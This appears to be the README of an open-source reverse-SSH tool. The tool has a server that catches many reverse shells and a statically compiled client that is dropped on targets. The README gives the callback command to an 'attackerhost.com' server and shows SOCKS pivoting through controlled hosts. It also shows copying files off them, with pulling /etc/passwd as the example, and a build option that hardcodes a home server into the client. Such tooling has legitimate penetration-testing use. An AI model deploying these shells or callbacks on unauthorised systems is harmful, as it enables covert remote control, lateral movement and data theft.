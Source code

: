 # Reverse SSH

Ever wanted to use SSH for reverse shells? Well now you can.  

The reverse SSH server lets you catch multiple reverse shells, using the fully statically compiled reverse shell binary.

```text
                    +----------------+                 +---------+
                    |                |                 |         |
                    |                |       +---------+ Shelled |
                    |    Reverse     |       |         |  Client |
                    |  Connection    |       |         |         |
                    |    Catcher     |       |         +---------+
+---------+         |                |       |
|         |         |                |       |
| Human   |         |                |  SSH  |         +---------+
| Client  +-------->+                <-----------------+         |
|         |         |                |       |         | Shelled |
+---------+         |                |       |         |  Client |
                    |                |       |         |         |
                    |                |       |         +---------+
                    |                |       |
                    |                |       |
                    +----------------+       |         +---------+
                                             |         |         |
                                             |         | Shelled |
                                             +---------+  Client |
                                                       |         |
                                                       +---------+
```

## TL;DR

```sh
make
cd bin/

cp ~/.ssh/id_ed25519.pub authorized_keys

#copy client to your target 
./server 0.0.0.0:3232
./client --foreground attackerhost.com:3232 
```

## Setup Instructions

```sh
make
```

Make will build both the `client` and `server` binaries. It will also generate a private key for the `client`, and copy the corresponding public key to the `authorized_controllee_keys` file to enable the reverse shell to connect.
If you need to build the client for a different architecture.

```sh
GOOS=linux GOARCH=amd64 make client
```

You will need to create an `authorized_keys` file, containing *your* public key.
This will allow you to control whatever server catches.

```sh
cp ~/.ssh/id_ed25519.pub authorized_keys
./server 0.0.0.0:3232 #Set the server to listen on port 3232
```

Put the client binary on whatever you want to control.

```sh
./client yourserver.com:3232
```

Then connect to your reverse shell catcher server:

```sh
ssh yourserver.com -p 3232
```

## Features

### Proxy

Using just the general dynamical forward `-D` flag you can proxy network traffic to your controlled hosts.

First you connect to your reverse shell catcher.

```sh
ssh -D 9050 catcher.com -p 3232
```

Then use the `proxy connect <remote_id>` command to connect to your reverse shell.

```sh
catcher$ proxy connect 0bda3b12d3ce83f895632d412261073dc93dba3e 
Connected: 0bda3b12d3ce83f895632d412261073dc93dba3e
catcher$ 
```

After this, just point your tools/web browser to the socks5 port open on your local machine (in this example on port 9050) and you're away laughing.

You can obviously only proxy to one host at a time.

### SCP

You can transfer files to and from your controlled hosts using SCP. Essentially you address which host you want to download/upload to by `<ip_address>:<remote_id>:/path/here`.

e.g to upload the directory test to the host `0be2782caae4bedff780e14526f7618ab61e24fa`:

```sh
scp -r -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:$(pwd -P)/test2
```

Or to download `/etc/passwd` from a host:

```sh
scp -P 3232 test catcher.com:0be2782caae4bedff780e14526f7618ab61e24fa:/etc/passwd
```

### Shell

On connection you will be presented by a list of controllable clients, e.g:

```sh
catcher$ ls
                                Targets
+------------------------------------------+------------+-------------+
| ID                                       | Hostname   | IP Address  |
+------------------------------------------+------------+-------------+
| 0f6ffecb15d75574e5e955e014e0546f6e2851ac | root@wombo | [::1]:45150 |
+------------------------------------------+------------+-------------+
```

Use `help` or press `tab` to view commands.  
Tab will auto complete entries.
So you you wanted to connect to the client given in the example:

```sh
> connect a<TAB>
```

Will auto complete the entry for you and on enter will connect you to your reverse shell.

### Default Server

At build time, you can specify a default server for the client binary to connect to:

```sh
$ RSSH_HOMESERVER=localhost:1234 make

# Will connect to localhost:1234, even though no destination is specified
$ bin/client

# Behaviour is otherwise normal; will connect to example.com:1234
$ bin/client example.com:1234
```
